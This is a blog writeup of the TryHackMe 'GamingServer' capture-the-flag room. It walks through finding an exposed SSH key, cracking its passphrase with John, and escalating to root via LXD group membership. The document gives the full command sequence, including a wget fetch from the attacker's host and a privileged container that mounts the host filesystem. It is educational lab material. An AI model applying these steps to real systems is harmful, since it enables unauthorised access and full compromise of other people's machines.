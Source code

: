 ```yaml
---
title: Gaming Server Writeup - TryHackMe Room writeups
description: In this blog post, I will walk you through the process of how I found the solution to gaming server boot2root box....
image: https://cdn.hashnode.com/res/hashnode/image/upload/v1598983218973/1osnlHKf7.png?w=1600&h=840&fit=crop&crop=entropy&auto=compress
publishedAt: 2021-04-01
authors:
  - name: Sanjay Sanjel
    avatarUrl: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTUstgs8cVrAZ4A2s8adMnLH6X-FtkDWM08Qg&usqp=CAU
    link: https://twitter.com/
tags:
  - Hacking
  - TryhackMe
  - Try Harder
link: https://codesandbox.io/embed/nuxt-content-l164h?hidenavigation=1&theme=dark



---
```




Hello guys, this is the latest writeup of the newly created room GamingServer. As it describes it is "An Easy Boot2Root box for beginners". 

Here you can read my recent writeup on ** [GitHappens Room](https://anonymousfiles.io/CktZzrSf/) .**

 **NOTE**:
> 
Also, another write-up on **Kiba **room is coming soon.

Although I had difficulties while finding the root flag and I had to research more about topics like '**LXD Privileage**', I found the room to be pretty fun.

So, let's get started.

So, let's start from the very beginning. As the description says, "Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.". With this little information we can pretty much figure out that there must be something on the Source Code or anywhere that may leave a hint to what to do next or the developer(web) may have leaked some credentials or something. 

Let's deploy the machine and when we visit the address,we're greeted with a World of Warcraft like looking website.

![gameserver-2_kL4nMbz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1598982698142/93Hkqai7D.png)

So, the first thing I did was to click on all the links to see if it all works. I clicked on all the menu links and the bottom links. Interestingly, when you click '**DRAAGAN LORE'** menu, an '**UPLOAD**' button appears on the right, just below the social media buttons. Click it and you'll be prompted to `IP_ADDR/uploads` where you'll find interesting files. Initially, I used **GoBuster** to find out all the directories because somehow I missed the 'UPLOAD' button. Anyway, in the end, I found out that you don't necessarily need the GoBuster to find the /uploads on the website.

![gameserver-3.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1598982562459/TT9GEffC8.png)

Once you go to the /uploads route, you'll see three files:
```
dict.lst
manifesto.txt
meme.jpg
```

![gameserver-4.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1598982605992/P6VsOuPt2.png)
If you click `dict.lst`, you'll get around 222 lists of password, which may come very handy to us later on.

Since the machine asks us to gain access, I also figured out that we need to SSH into the machine. So, probably the ID/Password combination would do the thing.

So, then I viewed the Source Code of the application and at the end, there was a clue. We see a message as an HTML comment that says 

```html
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
``` 
so from here we get the clue that the username must be john. Woah, we're getting good at this.

![gameserver-1.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1598982498461/alT5LyJur.png)

Now, again we'd still like to see if there are any other directories in the web-server. So, finally, it's time to use GoBuster.

I've used the same list that the dirbuster uses. I used the medium list in this case and the file  is located at` /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt.`

Run GoBuster as 

```
gobuster dir-u IP_ADDR_MACHINE -w PATH_TO_WORDLISTS_OF_GOBUSTER 
```

As the processing begins, we see a directory called `/secret`. Let's hop to the browser and go to the route. You'll see a file called **secretKey** and if you click it you find the RSA Private Key.

![gameserver-5_t0TdXcO.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1598982638203/h7gWZmbWH.png)

It's time now. Let's enter the victim's shell.

Let's download the secret key:

```
wget http://<IP_ADDR>/secret/secretKey
```

Now, we need to crack the password for getting into the system .So, we'll use **John** for this. If you have any problem running john, be sure to read this article on Null-Byte that helps you to run John.

Sometimes, the jumbo version of **JohnTheRipper** is not installed, we'll need to download ** [ssh2john](https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py) ** from the Github. Create a directory as where you like and run the following wget command.

```
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
```


This will download the `sshjohn.py` file and now we're ready to go.

Now,  let's crack the previous RSA Key we've downloaded.

Go to the folder where you've downloaded the sshjohn.py and run the following command.

```
python ssh2john.py secretKey > id_rsa.hash
```

This will convert our **secretKey **into a hash file and we're good to run John for getting the passphrase.

Now, as I mentioned above we accessed `/secret` route which had `dict.lst` file and it contained around 222 passwords. We'll use the same list to crack it. Let's download that file :

```
wget http://<IP_ADDR>/uploads/dict.lst
```

This will download that password list and we can start our cracking process.
Run the following command to get the password to the shell.

```
john --wordlist=dict.lst id_rsa.hash
```

This will provide us the password to the victim's system. You can see the password by running 

```
john --show id_rsa.hash
```

Since, you've got the password, we can SSH into the victim's machine. Run the following code to get the access :

```
ssh -i secretKey john@IP_ADDR
```

The IP_ADDR is the IP_Address of the machine and it asks for the password. Enter the password which you've just recently cracked.

Now, since you've into the system just browse some directories and you'll get the first flag.

## Second Part (Privilege Escalation)

Since, we've got the user.txt file now, our priority is now to escalate the privilege and get the root access to the system.

Let's see how we can do that.

If you run `id` you can see the following information on the console.

```
john@exploitmachine:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

If you see at the end there's something like *108(lxd)*. The user 'john' is in the lxd group. And any user that is a member of the lxd group can escalate the root privileage by exploiting the features of LXD. You can read the whole article at * [Hackingarticles.in](https://www.hackingarticles.in/lxd-privilege-escalation/) *.

Here, we must do two different things :


#### On our machine (we the attacker machine)


- Download alpine-build by cloning the Git Repo.
- Execute the build -alpine command that will build the latest Alpine image as a compressed file.
- Transfer the generated tar file to the host(victim) machine.


 #### On host machine(victim's machine)

-  Download the alpine image that we shared from the attacker machine.
-  Import image for lxd
-  Initialize the image inside a new container
-  Mount the container inside /root directory.

As you see, here are a series of steps that you must follow in order to get root access to the system.

So, let's dive again.

First go to your machine and run the following command :

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

By the command above, a tar.gz file is created that we will transfer to the victim's machine.

Run the following command to start a simple server.
```
python -m SimpleHTTPServer
```

Now, go to the victim's machine and navigate to /tmp directory.
```
cd /tmp/
```

Then we get the file hosted. We can also use scp to transfer the file but here I found this way a bit easy.

Now, run the following command:
```
wget http://[YOUR_IP_ADDR]/apline-v3.10-x86_64-20191008_1227.tar.gz
```

Be sure to replace the IP with your ip which you'll obtain as tun0. Also, replace he alpine.tar.gz filename with the one which you have on your machine(attacker).

Then run following commands to get the full access to the root:

```
lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

**NOTE : Please be sure to replace the alpine.tar.gz version with the one you have on your machine.**

Then, once we're inside the container, we can navigate to `cd /mnt/root/root/ `and there you'll have your final flag.
